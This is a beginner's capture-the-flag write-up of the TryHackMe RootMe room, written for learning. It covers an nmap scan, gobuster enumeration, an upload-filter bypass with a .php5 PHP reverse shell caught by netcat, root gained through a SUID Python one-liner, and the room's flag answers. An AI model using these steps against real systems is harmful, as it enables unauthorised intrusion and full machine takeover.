# Day 18: RootMe TryHackMe Writeup

A beginner-friendly TryHackMe RootMe writeup where Gobuster found the upload panel, PHP got us a shell, and Python decided to become root.

Today, we are doing **RootMe**.

The room description says:

> A CTF for beginners, can you root me?

Now you may ask:

“Siyam, this is a beginner-level CTF. Why this?”

Fair question.

The answer is simple: I am still learning, and beginner rooms are a great way to build a solid foundation before jumping into more difficult challenges.

I originally wanted to try Wonderland, but after taking a quick look at it, I realized I was probably getting a little ahead of myself. Rather than spending hours being completely lost, I decided to work through RootMe first and strengthen the basics.

So here we are.

RootMe. A beginner room. A safe place. Hopefully.
## Task 1: Deploy the Machine

First, I deployed the machine and got the target IP.

Nothing too dramatic here.

Just press start and wait for TryHackMe to wake the machine up from its nap.

## Task 2: Reconnaissance

The first task was reconnaissance.

Before trying to exploit anything, I needed to know what services were running on the target machine.

For that, I used `nmap`.

```bash
nmap -sV -sC <machine-ip>
```

Breaking it down:

```text
-sV = detect service versions
-sC = run default Nmap scripts
```

So this scan checks open ports, service names, and version information.



The scan showed two open ports:

```text
22/tcp open  ssh   OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp open  http  Apache httpd 2.4.41
```

### How many ports are open?

There were two open ports.

```text
2
```

### What version of Apache is running?

From the Nmap output, Apache was running version:



```text
2.4.41
```

### What service is running on port 22?

Port 22 was running SSH.



```text
SSH
```

## Finding Hidden Directories with Gobuster

The next question asked us to find hidden directories on the web server using Gobuster.

I had not really used Gobuster properly before this challenge, so this was a good learning moment.

Gobuster is a directory and file discovery tool.

When you open a website, you only see the pages that are linked publicly. But websites can have hidden paths like:

```text
/admin
/uploads
/panel
/backup
/assets
```

Gobuster brute-forces possible folder and file names using a wordlist.

The command I used was:

```bash
gobuster dir -u http://<machine-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Breaking that command down:

```text
gobuster
```

Runs the Gobuster tool.

```text
dir
```

Uses directory brute-forcing mode.

```text
-u http://<machine-ip>
```

Sets the target web server URL.

```text
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Sets the wordlist Gobuster will use. Gobuster reads this file line by line and tests each word as a possible directory or file name.



Gobuster found a few paths, but the important one was:

```text
/panel/
```

### What is the hidden directory?

```text
/panel/
```

`/css` and `/js` are normal website folders.

`/server-status` is an Apache status page, but it returned `403 Forbidden`.

`/uploads` looked interesting, but `/panel` stood out more because it sounded like an upload panel or control panel.

And when a beginner CTF gives you `/panel`, you click `/panel`.

That is not curiosity.

That is survival instinct.

## Task 3: Getting a Shell

The next goal was to upload something and get a reverse shell.

The `/panel/` page had an upload form.

At first, I did not fully understand how upload forms could lead to a shell, so I looked into PHP reverse shells and found the classic PentestMonkey PHP reverse shell:

```text
https://github.com/pentestmonkey/php-reverse-shell
```

A PHP reverse shell is a PHP file that, when executed by the web server, makes the target machine connect back to your machine.

In simple terms:

```text
You upload PHP shell
You start a listener
You visit the uploaded PHP file
The target connects back to you
You get a shell
```

Very polite of the target.

Very bad for security.

## Preparing the Reverse Shell

Before uploading the PHP reverse shell, I needed to edit it.

The important values were:

```text
LHOST = my TryHackMe VPN IP
LPORT = the port my listener will use
```

In my case, I used port `1234`.



I tried uploading the PHP file normally, but it failed.



Then I uploaded a normal image, and that worked.

So the upload form was probably filtering file extensions.

The `.php` extension was blocked, but `.php5` worked.

So I renamed the file to something like:

```text
php-reverse-shell.php5
```

And this time, the upload worked.



Classic upload-filter moment.

The website said “no PHP.”

I said “what about PHP wearing a fake moustache?”

And `.php5` walked in. 

This reminds me of Perry the Platypus.

## Triggering the Reverse Shell

After uploading the file, I checked the `/uploads/` directory.



Now I needed to start a Netcat listener on my machine.

```bash
nc -lvnp 1234
```

Breaking that down:

```text
-l = listen mode
-v = verbose output
-n = do not resolve DNS
-p = port number
```

Then I triggered the uploaded reverse shell by visiting:

```text
http://<machine-ip>/uploads/php-reverse-shell.php5
```

After a short wait, the shell connected back.



I checked who I was:

```bash
whoami
id
```

The output showed:

```text
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

So I had a shell as `www-data`.

That means I was running as the web server user.

Not root yet.

But still inside the machine.

Baby steps.

Malicious baby steps.

## Finding user.txt

The question asked for `user.txt`.

To find it, I used the `find` command:

```bash
find / -name user.txt 2>/dev/null
```

This searches from the root directory `/` for a file named `user.txt`.

The `2>/dev/null` part hides permission denied errors, because Linux loves saying “permission denied” like it is being paid per error message.



It found:

```text
/var/www/user.txt
```

Then I read the file:

```bash
cat /var/www/user.txt
```



### user.txt

```text
THM{y0u_g0t_a_sh3ll}
```

We got the first flag.

Now came the real fun.

Privilege escalation.

## Task 4: Privilege Escalation

Now that I had a shell, the goal was to become root.

The first question asked:

Search for files with SUID permission. Which file is weird?

Since I had just practiced Linux privilege escalation recently, I knew the command to check SUID files:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Breaking that down:

```text
find /          = search from the root directory
-type f         = only show files
-perm -04000    = find files with the SUID bit set
-ls             = show detailed output
2>/dev/null     = hide permission errors
```

SUID means the file runs with the permissions of its owner.

So if a root-owned binary has SUID set, it may run with root privileges.

That can become a privilege escalation path.



The weird file was Python.

The output showed something like:

```text
/usr/bin/python2.7
```

But TryHackMe wanted the answer as:

```text
/usr/bin/python
```

### Weird SUID file

```text
/usr/bin/python
```

## Escalating with Python

Now I needed to turn that SUID Python binary into a root shell.

For that, I checked GTFOBins.

GTFOBins is a website that shows how Linux binaries can be abused when they have dangerous permissions, such as sudo or SUID.

```text
https://gtfobins.github.io/
```

I searched for Python and checked the SUID section.



GTFOBins gave the command:

```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

What it does:

```python
import os
```

loads Python’s OS module.

```python
os.execl("/bin/sh", "sh", "-p")
```

replaces the Python process with a shell.

The `-p` option tells the shell to preserve privileges.

Since Python had the SUID bit set and was owned by root, this gave a root shell.

I ran the command:

```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```



Then I checked:

```bash
whoami
```

And I was root.

Python really said:

“Today, I am not a programming language. I am a privilege escalation method.”

## Finding root.txt

Now I needed the root flag.

I searched for it:

```bash
find / -name root.txt 2>/dev/null
```

Then I read the file:

```bash
cat /root/root.txt
```



### root.txt

```text
THM{pr1v1l3g3_3sc4l4t10n}
```

## Final Answers

### Reconnaissance

```text
Open ports: 2
Apache version: 2.4.41
Port 22 service: SSH
Hidden directory: /panel/
```

### Getting a Shell

```text
user.txt: THM{y0u_g0t_a_sh3ll}
```

### Privilege Escalation

```text
Weird SUID file: /usr/bin/python
root.txt: THM{pr1v1l3g3_3sc4l4t10n}
```

## Closing Thoughts

RootMe was a good beginner room, and honestly, that was exactly what I needed.

The flow was clean:

```text
Scan with Nmap
Find hidden directory with Gobuster
Upload PHP reverse shell
Catch shell with Netcat
Find user flag
Enumerate SUID files
Abuse Python SUID with GTFOBins
Become root
Read root flag
```

The biggest lesson from this challenge was how one weak upload form and one dangerous SUID binary can fully compromise a machine.

The web part gave the initial shell.

The Linux part gave root.

Also, Gobuster finally made sense to me here.

Before this, directory brute-forcing sounded like some fancy web enumeration thing.

Now I see it more simply:

The website may not show you the door.

So Gobuster starts knocking on every wall until one opens.

And in this room, that door was `/panel/`.

Tiny progress.

Root progress.

